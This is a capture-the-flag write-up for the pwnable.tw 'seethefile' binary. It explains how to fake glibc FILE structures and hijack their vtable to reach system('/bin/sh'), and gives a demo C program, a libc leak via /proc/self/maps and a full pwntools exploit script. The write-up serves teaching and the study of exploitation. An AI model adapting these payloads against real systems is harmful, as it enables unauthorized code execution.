



+++
title = "pwnable.tw - seethefile"
date = 2020-03-29T01:23:36.608Z
updated = 2020-12-27
aliases = ["/posts/5e7ff898af423b07a78b1283-pwnabletw-seethefile"]
[taxonomies]
tags = ['pwnable.tw', 'binary-exploitation', 'file-stream-oriented-programming', 'pwntools']
categories = ["ctf-writeups"]
+++

# Challenge
> Can you see anything?
>
> Get a shell for me.
>
> `nc chall.pwnable.tw 10200`
>
> [seethefile](https://pwnable.tw/static/chall/seethefile)
>
> [libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

# Background

##  _IO_FILE_plus
Files are internally represented using the [`_IO_FILE_plus`](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libioP.h#L342) struct in glibc:
```c
struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;
};
```

<!-- more -->

This struct is cast to an opaque `FILE` pointer and returned from `fopen`. 

## _IO_FILE

The [`_IO_FILE`](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libio.h#L241) struct contains buffered data and other details about a file:

```c
struct _IO_FILE {
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;	/* Current read pointer */
  char* _IO_read_end;	/* End of get area. */
  char* _IO_read_base;	/* Start of putback+get area. */
  char* _IO_write_base;	/* Start of put area. */
  char* _IO_write_ptr;	/* Current put pointer. */
  char* _IO_write_end;	/* End of put area. */
  char* _IO_buf_base;	/* Start of reserve area. */
  char* _IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;
  
  int _fileno;
  int _flags2;
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
};
```


## _IO_jump_t (vtable)
Even more interestingly, the `_IO_FILE_plus` struct contains a field named `vtable`. This field acts as a jump table 
containing virtual functions that are used when interacting with the file.

```c
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
};
```

For example, when `fclose(FILE *ptr)` is called, the function pointer stored in the `__finish`  field in the struct will 
be called after freeing internal structures. 

## Attacking FILEs (File-Stream Oriented Programming)

If we are able to call file-related functions (fclose, fread, etc.) on a pointer we can redirect execution by creating 
entries in the `vtable` field in `_IO_FILE_plus`. I created an example program to demonstrate an attack by creating a 
fake `FILE` struct:

```c
// gcc -m32 test.c -o test

#include <stdio.h>
#include <stdlib.h>

void* vtable[] = {
    NULL, //    JUMP_FIELD(size_t, __dummy);
    NULL, //    JUMP_FIELD(size_t, __dummy2);
    NULL, //    JUMP_FIELD(_IO_finish_t, __finish);
    NULL, //    JUMP_FIELD(_IO_overflow_t, __overflow);
    NULL, //    JUMP_FIELD(_IO_underflow_t, __underflow);
    NULL, //    JUMP_FIELD(_IO_underflow_t, __uflow);
    NULL, //    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    NULL, //    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    NULL, //    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    NULL, //    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    NULL, //    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    NULL, //    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    NULL, //    JUMP_FIELD(_IO_sync_t, __sync);
    NULL, //    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    NULL, //    JUMP_FIELD(_IO_read_t, __read);
    NULL, //    JUMP_FIELD(_IO_write_t, __write);
    NULL, //    JUMP_FIELD(_IO_seek_t, __seek);
    system,  // JUMP_FIELD(_IO_close_t, __close);
    NULL, //    JUMP_FIELD(_IO_stat_t, __stat);
    NULL, //    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    NULL  //    JUMP_FIELD(_IO_imbue_t, __imbue);
};

int main(int argc, char** argv) {
    // Creates a file and overwrites the vtable field in the FILE struct
    FILE *fp = fopen("/dev/null", "r");
    size_t *vtable_addr = ((void *) fp) + sizeof(FILE);

    *vtable_addr = (size_t *)vtable;

    // Moves "/bin/sh\x00" to the start of the file pointer.
    // When system is called, it will interpret the FILE* as a char*, which
    // means that the interpreted string will be "/bin/sh" due to the null byte.
    strcpy(fp, "/bin/sh\x00");

    // Calls system with the FILE pointer as an argument. This should create
    // a shell.
    fclose(fp);

    return 0;
}
```

Running this test program gives us a shell and then segfaults:


# Reversing

Reversing the program is made easy by cross-referencing the program's behavior with Ghidra.

## main
```c
int main(int argc,char **argv){
  int input;
  char input_str [32];
  
  init();
  welcome();
  do {
    menu();
    __isoc99_scanf("%s",input_str);
    input = atoi(input_str);
    switch(input) {
    default:
      puts("Invaild choice");
                    /* WARNING: Subroutine does not return */
      exit(0);
    case 1:
      openfile();
      break;
    case 2:
      readfile();
      break;
    case 3:
      writefile();
      break;
    case 4:
      closefile();
      break;
    case 5:
      printf("Leave your name :");
                    /* can overwrite fp */
      __isoc99_scanf("%s",name);
      printf("Thank you %s ,see you next time\n",name);
      if (fp != (FILE *)0x0) {
        fclose(fp);
      }
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}
```

The use of `scanf` without a maximum width specified allows for a buffer overflow attack in the .bss section. Overflowing 
the `name` buffer allows us to overwrite `FILE *fp`. 

## openfile
```c
int openfile(void){
  int iVar1;
  char *pcVar2;
  
  if (fp == (FILE *)0x0) {
    memset(filebuf,0,400);
    printf("What do you want to see :");
    __isoc99_scanf("%63s",filename);
    pcVar2 = strstr(filename,"flag");
    if (pcVar2 != (char *)0x0) {
      puts("Danger !");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    fp = fopen(filename,"r");
    if (fp == (FILE *)0x0) {
      iVar1 = puts("Open failed");
    }
    else {
      iVar1 = puts("Open Successful");
    }
  }
  else {
    puts("You need to close the file first");
    iVar1 = 0;
  }
  return iVar1;
}
```

This opens any file without `flag` in its name and stores its file descriptor (`FILE *`) in `fp`.

## readfile

```c
void readfile(void){
  size_t sVar1;
  
  memset(filebuf,0,400);
  if (fp == (FILE *)0x0) {
    puts("You need to open a file first");
  }
  else {
    sVar1 = fread(filebuf,399,1,fp);
    if (sVar1 != 0) {
      puts("Read Successful");
    }
  }
  return;
}
```

This reads the next 399 characters of the previously opened file into a buffer in memory.

## writefile
```c
void writefile(void) {
  char *pcVar1;
  
  pcVar1 = strstr(filename,"flag");
  if (pcVar1 == (char *)0x0) {
    pcVar1 = strstr(filebuf,"FLAG");
    if (pcVar1 == (char *)0x0) {
                    /* ASCII '}' */
      pcVar1 = strchr(filebuf,0x7d);
      if (pcVar1 == (char *)0x0) {
        puts(filebuf);
        return;
      }
    }
  }
  puts("you can\'t see it");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

This prints the contents of the previously loaded memory buffer as long as it doesn't contain "FLAG" or the character '}'.

## closefile
```c
void closefile(void)

{
  if (fp == (FILE *)0x0) {
    puts("Nothing need to close");
  }
  else {
    fclose(fp);
  }
  fp = (FILE *)0x0;
  return;
}
```

This closes the previously opened file.

# Attacking the Program

I will be using [pwntools](https://github.com/Gallopsled/pwntools) to facilitate communications with the binary and the 
remote server.

To start off, we need to load the binary and the corresponding libc:

```python
from pwn import *

context.binary = './seethefile'
context.terminal = '/bin/sh'

elf = ELF('./seethefile')
#libc = ELF('./libc_32.so.6')                     # Remote libc
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')    # Local libc

r = process('./seethefile')
gdb.attach(r)
#r = remote('chall.pwnable.tw', 10200)
```

I also chose to define some helper functions to abstract communications with the binary:

```python
def openfile(path):
        r.recvuntil('choice :')
        r.sendline("1")
        r.recvuntil("see :")
        r.sendline(path)

def readfile():
        r.recvuntil('choice :')
        r.sendline("2")

def writefile():
        r.recvuntil('choice :')
        r.sendline("3")
        return r.recvuntil('---------------MENU---------------')[:-len('---------------MENU---------------')]

def closefile():
        r.recvuntil('choice :')
        r.sendline("4")

def exit(name):
        r.recvuntil('choice :')
        r.sendline("5")
        r.recvuntil('name :')
        r.sendline(name)
```

## Leaking libc base

If we want to get a shell, we need to know the address of `system` in memory. We can use the psuedo-file `/proc/self/maps`
 which contains a list of loaded memory regions of the reading process. On the remote service, we need to call `readfile`
  twice because libc's entry appears in the second set of 400 characters:



This would translate to the following in the exploit script:

```python
openfile('/proc/self/maps')
readfile()
readfile()

libc.address = int([x.split('-')[0] for x in writefile().split('\n') if x.endswith('.so')][0], 16)
```

## Faking a FILE struct

### Choosing the flags
If we simply create a file struct with only `vtable` set, we will receive a segfault. Looking at the source code of 
[`fclose`](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/oldiofclose.c#L36), we see multiple fields of the 
struct being dereferenced:

```c
int
attribute_compat_text_section
_IO_old_fclose (_IO_FILE *fp)
{
  int status;

  CHECK_FILE(fp, EOF);

  /* We desperately try to help programs which are using streams in a
     strange way and mix old and new functions.  Detect new streams
     here.  */
  if (fp->_vtable_offset == 0)
    return _IO_new_fclose (fp);

  /* First unlink the stream.  */
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    _IO_un_link ((struct _IO_FILE_plus *) fp);

  _IO_acquire_lock (fp);
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    status = _IO_old_file_close_it (fp);
  else
    status = fp->_flags & _IO_ERR_SEEN ? -1 : 0;
  _IO_release_lock (fp);
  _IO_FINISH (fp);
  if (_IO_have_backup (fp))
    _IO_free_backup_area (fp);
  if (fp != _IO_stdin && fp != _IO_stdout && fp != _IO_stderr)
    {
      fp->_IO_file_flags = 0;
      free(fp);
    }

  return status;
}
```


We can skip large chunks of this function if `_IO_IS_FILEBUF` is not set. Looking at the source code of libc, I found 
that the bit mask for _IO_IS_FILEBUF is `0x2000`. The bitwise NOT is `0xFFFFDFFF`, so we can set the flags of our fake 
FILE struct to that.


### Bypassing the lock

Another interesting macro `_IO_aquire_lock(fp)` is used. The 
[struct `_IO_lock_t`](https://elixir.bootlin.com/glibc/glibc-2.23/source/sysdeps/nptl/stdio-lock.h#L29) isn't too complicated:
```c
typedef struct { 
     int lock; 
     int cnt; 
     void *owner;
} _IO_lock_t;
```

`_lock` is locked if `_lock->cnt != 0`. Thus, if we set `_lock` to a buffer of zeroes, libc will be able to aquire the 
lock by incrementing `cnt`. Similarly, its counterpart, `_IO_release_lock` decrements `cnt`. A good target buffer is the 
end of the `filename` buffer.

We can add the following onto our exploit script:

```python
file = ""                                       # file
file += p32(0xFFFFDFFF)                         # file->_flags  set _IO_IS_FILEBUF bit to false
file += ";/bin/sh;"                             # file->???     to be interpreted as a string

payload = file.ljust(32, 'A')                   # padding to reach *fp
payload += p32(elf.symbols['name'])             # *fp           overwrite *fp to point to the start of the name buffer
payload += '`'                                  # padding
payload += 'A' * (72-37)                        # padding
payload += p32(elf.symbols['filename'] + 32)    # file->_lock   vtable->__dummy
payload += p32(elf.symbols['name'] + 72)        # file->vtable  vtable->__dummy2
payload += p32(libc.symbols['system'])          #               vtable->__finish

exit(payload)
```

## Overview

This diagram displays my payload (on the right) alongside the corresponding structures. The `_IO_jump_t` and the 
`_IO_FILE` structs are overlaid on each other.

{{ svg(path="5e81a81b4304800866d6917b.svg") }}

## Final Script

```python
from pwn import *

context.binary = './seethefile'

elf = ELF('./seethefile')
libc = ELF('./libc_32.so.6')

r = remote('chall.pwnable.tw', 10200)

def openfile(path):
        r.recvuntil('choice :')
        r.sendline("1")
        r.recvuntil("see :")
        r.sendline(path)

def readfile():
        r.recvuntil('choice :')
        r.sendline("2")

def writefile():
        r.recvuntil('choice :')
        r.sendline("3")
        return r.recvuntil('---------------MENU---------------')[:-len('---------------MENU---------------')]

def closefile():
        r.recvuntil('choice :')
        r.sendline("4")

def exit(name):
        r.recvuntil('choice :')
        r.sendline("5")
        r.recvuntil('name :')
        r.sendline(name)

openfile('/proc/self/maps')
readfile()
readfile()

libc.address = int([x.split('-')[0] for x in writefile().split('\n') if x.endswith('.so')][0], 16)

info("Found libc base " + hex(libc.address))
info("Address of system " + hex(libc.symbols['system']))

file = ""                                       # file
file += p32(0xFFFFDFFF)                         # file->_flags  set _IO_IS_FILEBUF bit to false
file += ";/bin/sh;"                             # file->???     to be interpreted as a string

payload = file.ljust(32, 'A')                   # padding to reach *fp
payload += p32(elf.symbols['name'])             # *fp           overwrite *fp to point to the start of the name buffer
payload += '`'                                  # padding
payload += 'A' * (72-37)                        # padding
payload += p32(elf.symbols['filename'] + 32)    # file->_lock   vtable->__dummy
payload += p32(elf.symbols['name'] + 72)        # file->vtable  vtable->__dummy2
payload += p32(libc.symbols['system'])          #               vtable->__finish

exit(payload)

r.interactive()
```

Running this gives us a shell on the remote server:




# Further Reading

These are some resources I found helpful while solving this challenge.

1. [https://elixir.bootlin.com/glibc/glibc-2.23/source](https://elixir.bootlin.com/glibc/glibc-2.23/source)
2. [https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)
3. [https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf](https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf)
